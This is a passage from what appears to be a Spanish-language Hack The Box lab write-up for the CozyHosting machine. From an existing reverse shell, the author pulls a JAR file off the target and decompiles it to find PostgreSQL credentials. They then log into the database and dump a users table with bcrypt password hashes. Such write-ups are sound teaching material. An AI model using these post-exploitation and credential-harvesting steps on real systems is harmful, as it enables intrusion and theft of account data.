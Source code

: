 Adicionalmente si exploramos el directorio **home**, vamos a poder ver al directorio del usuario josh

```ruby
app@cozyhosting:/home$ ls -l
total 4
drwxr-x--- 3 josh josh 4096 Aug  8 10:19 josh
```

Para pasarnos el archivo, en la maquina victima usare python para crear un servidor web

```ruby
python3 -m http.server 8086
```

Y en mi maquina solamente me lo descargare:

```ruby
wget http://cozyhosting.htb:8086/cloudhosting-0.0.1.jar
```

Como es un archivo jar, y no tengo un IDE para analizarlo, usare esta pagina para decompilarlo [https://jdec.app/](https://jdec.app/)

Al explorarlo un poco, vamos a poder ver credenciales para postgresql

![](/assets/img/htb-cozyHosting/10.png)

Asi que en la reverse shell que conseguimos, nos conectaremos:

```ruby
psql -U postgres -W -h 127.0.0.1 -d cozyhosting
```

Listamos las bases de datos con: **\l**:

![](/assets/img/htb-cozyHosting/11.png)

En mi caso yo ya estoy conectado a la base de datos **cozyhosting**, pero en caso de que no, usa el comando: **\c cozyhosting**

Si mostramos las tablas tenemos varias:

```ruby
cozyhosting=# \d
              List of relations
 Schema |     Name     |   Type   |  Owner   
--------+--------------+----------+----------
 public | hosts        | table    | postgres
 public | hosts_id_seq | sequence | postgres
 public | users        | table    | postgres
(3 rows)
```

Si hacemos un select de users, vamos a ver dos hashes

```ruby
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```
